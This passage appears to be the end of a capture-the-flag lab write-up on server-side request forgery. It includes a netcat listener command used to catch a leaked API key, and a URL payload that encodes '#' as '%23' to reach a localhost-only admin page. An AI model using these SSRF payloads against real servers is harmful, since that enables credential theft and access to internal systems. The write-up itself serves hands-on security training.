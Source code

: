		nc -lnvp 8087
is the command you'll run on your terminal, and then going back to the website,
in the URL, replace the IP at start with your attack box IP and viola, YOU have the API Key!

**EXTRA CREDIT:**
[ You don't need this flag to complete, but it's a nice way to test what you know, and gives an opportunity to learn even more by doing your own research! ]

We know that only `localhost` can access the **admin area**. Can be done by changing server to localhost and admin by using this:

	server=http://localhost:8087/admin#&id=75482342
but to get our flag from this, we need to break-up `server` from `id`, if you pick up the right track to research, you'll find it out as `obfuscation`. Sometimes it can be seen as `escaping the #`.
Nothing just some fancy stuff if you don't know anything about it, if you wanna know, read about it [here](https://www.w3schools.com/tags/ref_urlencode.asp?_sm_au_=iVVDMg0TSmrMV6Dm).

Just encode the `#` from URL into `%23`, and then change the URL from:
this

	http://10.10.182.198:8087/download?server=secure-file-storage.com:8087&id=75482342
to this

	http://10.10.182.198:8087/download?server=http://localhost:8087/admin%23&id=75482342

And you'll get your last flag! 

~~ ROOM COMPLETE ~~